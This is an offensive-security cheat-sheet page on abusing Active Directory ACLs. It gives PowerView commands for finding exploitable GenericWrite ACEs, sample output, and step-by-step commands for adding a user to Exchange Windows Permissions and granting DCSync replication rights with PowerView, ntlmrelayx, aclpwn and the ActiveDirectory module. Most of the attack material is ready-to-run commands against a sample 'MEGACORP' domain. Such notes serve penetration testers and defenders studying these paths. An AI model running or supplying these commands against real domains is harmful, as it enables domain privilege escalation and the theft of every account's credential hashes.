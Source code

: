 # ACL Abuse

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [Abusing ACEs Mindmap](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/ACEs_xmind.png) · [Orange-Cyberdefense/arsenal](https://github.com/Orange-Cyberdefense/arsenal)




## BloodHound

ACL BloodHound abuse hierarchy (by [@HackAndDo](https://twitter.com/HackAndDo/status/1398309183074754562)):

![](/.gitbook/assets/1.png)




## Hunt for ACLs



### PowerView2

Search for interesting ACLs:

```
PowerView2 > Invoke-ACLScanner -ResolveGUIDs
```

Check if the attacker "MEGACORP\sbauer" has `GenericWrite` permissions on the "jorden" user object:

```
PowerView2 > Get-ObjectAcl -samAccountName jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.IdentityReference -eq "MEGACORP\sbauer"}

InheritedObjectType   : All
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL  <== Victim (jorden)
ObjectType            : All
IdentityReference     : MEGACORP\sbauer  <== Attacker (sbauer)
IsInherited           : False
ActiveDirectoryRights : GenericWrite
PropagationFlags      : None
ObjectFlags           : None
InheritanceFlags      : ContainerInherit
InheritanceType       : All
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110
```



### PowerView3

Search for interesting ACLs:

```
PowerView3 > Find-InterestingDomainAcl -ResolveGUIDs | ? {$_.IdentityReferenceClass -match "user"}

AceType               : AccessAllowed
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL
ActiveDirectoryRights : GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110  <== Victim (jorden)
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-3102  <== Attacker (sbauer)
AccessMask            : 131112
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

Check if the attacker "MEGACORP\sbauer" (`S-1-5-21-3167813660-1240564177-918740779-3102`) has `GenericWrite` permissions on the "jorden" user object:

```
PowerView3 > Get-DomainObjectAcl -Identity jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.SecurityIdentifier -eq "S-1-5-21-3167813660-1240564177-918740779-3102"}
```

Notes:

* PowerView 3.0 does not return `IdentityReference` property, which makes it less handy for this task (however, you may filter the output by the attacker's SID).
* `-ResolveGUIDs` switch shows `ObjectType` and `InheritedObjectType` properties in a human form (not in GUIDs).




## Exchange Windows Permissions

Privilege escalation with ACLs in AD by example of the `Exchange Windows Permissions` domain group.

Add user to the `Exchange Windows Permissions` group:

```
PS > Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members snovvcrash
```

Add DCSync rights with PowerView2:

```
PowerView2 > Add-ObjectAcl -TargetDistinguishedName "DC=megacorp,DC=local" -PrincipalName snovvcrash -Rights DCSync -Verbose
```

Add DCSync rights with PowerView3:

```
PS > $cred = New-Object System.Management.Automation.PSCredential("snovvcrash", $(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force))
PowerView3 > Add-DomainObjectAcl -TargetIdentity "DC=megacorp,DC=local" -PrincipalIdentity snovvcrash -Credential $cred -Rights DCSync -Verbose
```

Add DCSync rights with ntlmrelayx.py:

```
$ sudo ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash
```

Add DCSync rights with aclpwn.py:

* [https://github.com/fox-it/aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound](https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound)
* [https://www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)

```
$ aclpwn -f snovvcrash -ft user -t megacorp.local -tt domain -d megacorp.local -du neo4j -dp neo4j --server 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -sp 'Passw0rd!'
```

Add DCSync rights with ActiveDirectory module:

* [https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)

1. Get ACL for the root domain object.
2. Get SID for the account to be given DCSync rights.
3. Create a new ACL and within it set "Replicating Directory Changes" (GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`) and "Replicating Directory Changes All" (GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`) rights for the SID from (2).
4. Apply changes.

```
PS > Import-Module ActiveDirectory
PS > $acl = Get-Acl "AD:DC=megacorp,DC=local"
PS > $user = Get-ADUser snovvcrash
PS > $sid = New-Object System.Security.Principal.SecurityIdentifier $user.SID
PS > $objectGuid = New-Object guid 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
PS > $identity = [System.Security.Principal.IdentityReference] $sid
PS > $adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
PS > $type = [System.Security.AccessControl.AccessControlType] "Allow"
PS > $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > $objectGuid = New-Object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > Set-Acl -AclObject $acl "AD:DC=megacorp,DC=local"
```




## Managed Security Groups

* [https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/](https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/)

Returns all security groups in the current (or target) domain that have a manager set:

```
PowerView3 > Get-DomainManagedSecurityGroup | select groupName

GroupName                : Security Operations
GroupDistinguishedName   : CN=Security Operations,CN=Users,DC=MEGACORP,DC=LOCAL
ManagerName              : john.doe
ManagerDistinguishedName : CN=John Doe,OU=Security,OU=IT,OU=Employees,DC=MEGACORP,DC=LOCAL
ManagerType              : User
ManagerCanWrite          : UNKNOWN
```

Enumerate the ACLs set on this group. `GenericWrite` privilege means that the user can modify group membership:

```
PowerView3 > $sid = ConvertTo-SID john.doe
PowerView3 > Get-DomainObjectAcl -Identity 'Security Operations' | ? {$_.SecurityIdentifier -eq $sid}

ObjectDN              : CN=Security Operations,CN=Users,DC=MEGACORP,DC=LOCAL
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-2549
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 131132
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-1874
AceType               : AccessAllowed
AceFlags              : ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
AuditFlags            : None
```
